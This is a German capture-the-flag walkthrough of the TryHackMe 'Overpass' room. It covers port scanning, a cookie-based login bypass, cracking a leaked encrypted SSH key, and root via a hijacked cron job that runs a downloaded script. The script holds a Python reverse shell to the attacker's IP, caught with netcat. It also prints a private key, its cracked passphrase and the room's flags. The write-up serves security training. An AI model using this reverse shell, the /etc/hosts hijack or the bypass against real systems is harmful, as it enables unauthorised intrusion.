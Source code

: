 # Overpass 1 CTF tryhackme.com
> Link zur CTF: [tryhackme.com](https://tryhackme.com/room/overpass)

Als erstes Scannen wir die IP-Adresse nach offene Ports um uns ein überblick zu verschaffen:<br>

* Command: `nmap -sV -A -oN scan.txt <TARGET-IP>`<br>

### Nmap Scan Result:
```
# Nmap 7.94SVN scan initiated Sun Feb 18 22:26:31 2024 as: nmap -sV -A -oN scan.txt 10.10.129.208
Nmap scan report for 10.10.129.208
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 22:26:48 2024 -- 1 IP address (1 host up) scanned in 16.27 seconds
```

es sind also 2 Ports offen. SSH ist nicht angreifbar, aber http ist interesant also konzentrieren wir uns auf port 80.
Als erstes Scannen wir die website nach verzeichnisse und bruteforcen diese:<br>

* Command: `gobsuter dir http://10.10.197.218/ /usr/share/wordlists/dirb/command.txt`<br>

### Gobuster Result:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.218/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]

===============================================================
Finished
===============================================================
```
Ein interesantes gibt es bei dem ergebnis: **/admin** sieht wie eine Login-Page aus.<br>

### /admin page:
![Admin anmelde Seite](./admin_page.png)

nach dem ich einmal zum test **username=admin&password=admin** ausprobiert habe habe ich mit dem Browser-Tools von Mozilla Firefox sehen können das eine .js Datei angesprochen wird namens: **login.js** wenn wir uns diesen code mal ansehen finden wir folgende interesante funktion:<br>

* login.js:
  ```javascript
    async function login() {
      const usernameBox = document.querySelector("#username");
      const passwordBox = document.querySelector("#password");
      const loginStatus = document.querySelector("#loginStatus");
      loginStatus.textContent = ""
      const creds = { username: usernameBox.value, password: passwordBox.value }
      const response = await postData("/api/login", creds)
      const statusOrCookie = await response.text()
      if (statusOrCookie === "Incorrect credentials") {
          loginStatus.textContent = "Incorrect Credentials"
          passwordBox.value=""
      } else {
          Cookies.set("SessionToken",statusOrCookie)
          window.location = "/admin"
      }
    }
  ```
in diesem code gibt es eine sicherheits lücke die in einem echten Senario ziemlich fatal währe,<br>der Fehler liegt in: `(statusOrCookie === "Incorrect credentials")` Man könnte einfach sein Cookie auf `"statusOrCookie"` setzen über die Browser-Console<br>

* Command: `Cookies.set("SessionToken","statusOrCookie")` <br>

und die Seite neuladen und dadruch das login umgehen, und ich bin drin!<br>

### Seiten Inhalt:
```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
Auf der seite finden wir eine nachricht an den User: **James** und einen verschlüsselten **id_rsa** key für den fall das er sein Password vergisst. Anscheinend ist diese Function im Code eine art Backdoor für den Entwickler aber leider nicht personalisiert genung und zu offensichtlich.
<br>
Also speichern wir uns diesen Key auf unseren system in einer datei. Aber wir müssen sie noch entschlüsseln<br>
<br>
dafür benutze ich: `ssh2john`
* Command: `ssh2john id_rsa > hash`<br>
<br>
Jetzt führen ich einen Hash Brute Force angriff aus:<br>
<br>

* Command: `john hash --wordlist=/usr/share/wordlists/rockyou.txt`

  ### John Result:
  ```
  id_rsa:james13

  1 password hash cracked, 0 left
  ```
  <br>  
* Command: `chmod 600 id_rsa`<br>
  <br>
  
jetzt haben wir auch den schlüssel um uns auf denn SSH Server einzuloggen.<br>
Nun loggen wir uns ein mit: `ssh james@IP -id id_rsa` auf dem Server ein,<br>
geben das Password ein für die id_rsa datei: **james13** und wir sind drin!<br>
<br>

### SSH Server:
![SSH Server login](./login_ssh.png)

* User Flag: `thm{65c1aaf000506e56996822c6281e6bf7}`<br>
<br>
Nach dem ich auf dem System **linpeas** ausführe und das systeam nach PrivEsc möglichkeiten scannen finde ich in der **/etc/crontab** file eine Aufgabe die jede Minute ausgeführt wird:<br>
`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`<br>
Erklärung:
* Argument 1: `* * * * *` bedeutet dass das die Aufgabe jede Minute ausgeführt wird<br>
* Argument 2: `root` bedeutet das es mit root rechten ausgeführt wird<br>
* Argument 3: `curl overpass.thm/downloads/src/buildscript.sh | bash` ist das was ausgeführt wird

Das ist interesant es wird eine curl abfrage an overpass.thm/downloads/src/buildscript.sh gestellt und die Aufgabe wird automatisch ausgeführt. Was ich noch durch linpeas sehen konnte ist das die **/etc/hosts** bearbeitet werden kann, also könenn wir der domain overpass.thm einfach mit unsere IP-Addresse wechseln und erstellt auf unseren System einfach ein **/downloads/src** Ordner und das **buildscript.sh** mit einer rshell.<br>
<br>
ich entscheide mich für:
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.65.124",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
<br>

## buildscript.sh content:
```bash
#!/bin/sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.65.124",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Als nächstes starte ich ein python3 http.server auf dem port 80 da der target server immer den port 80 abfragt, wichtig ist den server in dem Ordner vor /downloads zu starten und gleichzeitig einen rshell listener zu starten in meinem fall:<br>
<br>
* Command: `nc -lnvp 4444`<br>
<br>
Jetzt heißt es warten bis der Target Server das Script downloaded und ausführt, und ich hab eine root shell<br>

![root access terminal](./root_access.png)

* Root Flag: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

  Du kannst mich auf [Patreon](https://patreon.com/n3m3s1s713?utm_medium=unknown&utm_source=join_link&utm_campaign=creatorshare_creator&utm_content=copyLink) Supporten


